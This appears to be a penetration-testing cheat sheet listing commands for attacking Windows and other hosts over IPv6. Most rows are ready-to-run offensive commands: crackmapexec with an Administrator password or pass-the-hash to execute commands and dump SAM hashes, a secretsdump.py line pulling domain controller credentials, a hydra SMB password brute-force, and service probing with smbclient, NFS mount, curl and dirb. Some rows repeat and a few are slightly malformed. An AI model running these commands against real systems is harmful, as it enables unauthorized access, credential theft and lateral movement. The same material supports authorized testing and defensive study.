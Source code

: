### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |

### IPv6 hydra Password Brute Force
| for Example  |
| ------------- |
|hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[IPv6] |

### IPv6 Services
| for Example  |
| ------------- |
|ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |
|smbclient -L //2001:db7::1234:1%eth0 |
|http://[IPV6] |
|telnet IPV6 80 |
|mount -t nfs [2001:db8::60fe:5bff:febc:912]:/home/MeMe /home/mount/ |
|curl -g [fe80::ba27:ebff:fe60:89af] |
|curl -g [::1]:8080|
|curl -g http://[IPV6]:8080/ |
|curl -I [IPV6] -v -V -K|
|dirb http://[IPV6]|


